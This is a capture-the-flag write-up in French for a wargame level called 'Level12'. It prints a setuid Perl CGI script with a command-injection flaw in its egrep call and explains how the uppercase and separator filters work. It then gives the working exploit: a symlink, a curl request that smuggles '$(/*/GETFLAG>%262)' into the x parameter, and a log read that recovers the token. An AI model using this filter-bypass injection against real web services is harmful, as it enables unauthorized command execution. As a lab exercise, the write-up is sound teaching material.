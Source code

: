 # Level12

### Observations:
##### J'affiche le contenue du programme '~/level12.pl':
```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```

##### Details du programme:
```bash
-rwsr-sr-x+ 1 flag12  level12  464 Mar  5  2016 level12.pl
```

Je me rend compte que ce programme est execute par defaut en tant qu'utilisateur 'flag12' grace a la commande:
```sh
ps aux | grep flag12
```

##### Entrees du programme:
```perl
string x
string y
```

##### Fonctionnement:
Ce programme est compose de deux fonctions aux utilitees douteuses:
 * La fonction \<t>:
	1. Applique un filtre sur 'x' qui transforme les lettres minuscules en majuscules.
	2. Applique un filtre sur 'x' qui enleve tout ce qu'il y a apres un caractere de separation.
	3. Execute une commande shell qui utilise la variable 'x' modifie.
 * La fonction \<n> est inutile dans son fonctionnement.

> Le programme tourne sur un serveur tcp par defaut

##### Conclusions:
Ce programme a une faille dans la fonction \<t> plus precisement au moment d'executer la commande shell. \
Nous pouvons inserer la commande que nous voulons dans celle-ci tant que nous respectons ces regles simples:
 - Utiliser uniquement des caracteres majuscule.
 - Ne pas ecrire de caracteres de separation.

### Solution:
Je creer un lien symbolique leger pour me permettre d'executer getflag avec des  caracteres majuscules. \
J'effectue une requete au serveur avec ma commande a injecter que je redirige dans le flux d'erreurs. \
Puis j'affiche la derniere ligne du fichier de log du flux d'erreurs.

#### commandes:
```bash
ln -s /bin/getflag /tmp/GETFLAG
curl '127.0.0.1:4646?x="$(/*/GETFLAG>%262)"'
tail -n 1 /var/log/apache2/error.log
```
> Notez l'utilisation de shellcode '%26' pour eviter que le caractere de '&' soit pris en compte dans le filtre de separateurs.


**token :** g1qKMiRpXf53AWhDaU7FEkczr